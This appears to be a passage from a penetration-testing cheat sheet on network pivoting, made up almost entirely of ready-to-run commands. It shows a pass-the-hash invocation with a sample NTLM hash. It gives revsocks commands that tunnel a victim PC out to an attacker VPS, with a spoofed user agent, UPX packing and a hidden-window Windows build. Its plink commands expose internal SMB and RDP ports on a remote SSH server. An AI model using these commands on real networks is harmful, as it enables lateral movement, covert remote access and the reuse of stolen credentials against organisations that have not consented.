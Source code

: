 Passing the hash

```python
python client.py --server-ip [server ip] --server-port 9443 --ntlm-proxy-ip [proxy ip] \
--ntlm-proxy-port 8080 --domain CORP --username jdoe \
--hashes 986D46921DDE3E58E03656362614DEFE:50C189A98FF73B39AAD3B435B51404EE
```

## revsocks

```powershell
# Listen on the server and create a SOCKS 5 proxy on port 1080
user@VPS$ ./revsocks -listen :8443 -socks 127.0.0.1:1080 -pass Password1234

# Connect client to the server
user@PC$ ./revsocks -connect 10.10.10.10:8443 -pass Password1234
user@PC$ ./revsocks -connect 10.10.10.10:8443 -pass Password1234 -proxy proxy.domain.local:3128 -proxyauth Domain/userpame:userpass -useragent "Mozilla 5.0/IE Windows 10"
```


```powershell
# Build for Linux
git clone https://github.com/kost/revsocks
export GOPATH=~/go
go get github.com/hashicorp/yamux
go get github.com/armon/go-socks5
go get github.com/kost/go-ntlmssp
go build
go build -ldflags="-s -w" && upx --brute revsocks

# Build for Windows
go get github.com/hashicorp/yamux
go get github.com/armon/go-socks5
go get github.com/kost/go-ntlmssp
GOOS=windows GOARCH=amd64 go build -ldflags="-s -w"
go build -ldflags -H=windowsgui
upx revsocks
```


## plink

```powershell
# exposes the SMB port of the machine in the port 445 of the SSH Server
plink -l root -pw toor -R 445:127.0.0.1:445 
# exposes the RDP port of the machine in the port 3390 of the SSH Server
plink -l root -pw toor ssh-server-ip -R 3390:127.0.0.1:3389  

plink -l root -pw mypassword 192.168.18.84 -R
plink.exe -v -pw mypassword user@10.10.10.10 -L 6666:127.0.0.1:445

plink -R [Port to forward to on your VPS]:localhost:[Port to forward on your local machine] [VPS IP]
# redirects the Windows port 445 to Kali on port 22
plink -P 22 -l root -pw some_password -C -R 445:127.0.0.1:445 192.168.12.185   
```
